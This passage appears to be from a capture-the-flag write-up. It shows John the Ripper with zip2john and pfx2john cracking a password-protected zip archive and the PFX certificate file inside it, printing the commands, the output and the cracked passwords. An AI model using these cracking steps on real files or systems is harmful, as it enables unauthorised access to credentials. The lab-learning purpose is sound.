 ## Looking into the zip file

The winrm_backup.zip file is password protected we can try to bruteforce the passwword using john the ripper

```bash
zip2john winrm_backup.zip > hash
```

```bash
john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
supremelegacy    (winrm_backup.zip/legacyy_dev_auth.pfx)     
1g 0:00:00:00 DONE (2025-08-01 14:38) 3.846g/s 13375Kp/s 13375Kc/s 13375KC/s surkerior..supalove
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

```

Unzipping the file we get a .pfx file

In a Windows Active Directory environment, a **.pfx file** (Personal Information Exchange) is a crucial file format used for securely storing and transferring cryptographic information, primarily **digital certificates and their corresponding private keys**, in a single, password-protected file. It's also known as a **PKCS#12 file**.

This pfx file has the public and the private certificate which can be used to log in with winrm using evil-winrm.

# Exploitation

## Extracting certificates from .pfx file

This .pfx file is password protected we can use john the ripper again to try brute force the password 

```bash
pfx2john legacyy_dev_auth.pfx > pfxhash
```

```bash
john pfxhash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
thuglegacy       (legacyy_dev_auth.pfx)     
1g 0:00:00:37 DONE (2025-08-01 14:40) 0.02634g/s 85135p/s 85135c/s 85135C/s thugways..thsco04
Use the "--show" option to display all of the cracked passwords reliably

```
